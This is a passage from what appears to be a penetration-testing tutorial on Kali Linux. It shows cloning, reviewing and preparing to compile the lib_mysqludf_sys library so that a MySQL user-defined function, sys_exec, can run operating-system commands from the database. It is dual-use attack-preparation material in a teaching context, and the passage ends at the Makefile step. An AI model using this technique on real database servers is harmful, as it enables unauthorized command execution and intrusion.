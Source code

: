 Let's download the code, review it, and compile it.

```
kali@kali:~$ git clone https://github.com/mysqludf/lib_mysqludf_sys.git
Cloning into 'lib_mysqludf_sys'...
...

kali@kali:~$ cd lib_mysqludf_sys/
kali@kali:~/lib_mysqludf_sys$ 
```

Opening up the lib_mysqludf_sys.c file shows us a fairly standard UDF library that allows for execution of system commands through the C/C++ _system_ function.

```
...
my_ulonglong sys_exec(
   UDF_INIT *initid
,  UDF_ARGS *args
,  char *is_null
,  char *error
){
  return system(args->args[0]);
}
...
```

Moreover, according to the code, the function exported by the shared library after compilation is named _sys_exec_ as in the previous exploit. We'll need to create a MySQL function with the same name in order to execute system commands from the database.

Now that we have reviewed the code, we will compile the shared library.

Looking at the install.sh file, as a prerequisite for compilation we need to install _libmysqlclient15-dev_. In Kali Linux, this is the _default-libmysqlclient-dev_ package, which can be installed with apt.

```
kali@kali:~/lib_mysqludf_sys$ sudo apt update && sudo apt install default-libmysqlclient-dev
```

Now that we have the dependencies installed, we need to remove the old object file before generating the new one.

```
kali@kali:~/lib_mysqludf_sys$ rm lib_mysqludf_sys.so 
```

Looking at the Makefile, we will need to make some minor adjustments to ensure we can compile the source file correctly.

```
LIBDIR=/usr/lib

install:
        gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o $(LIBDIR)/lib_mysqludf_sys.so
```
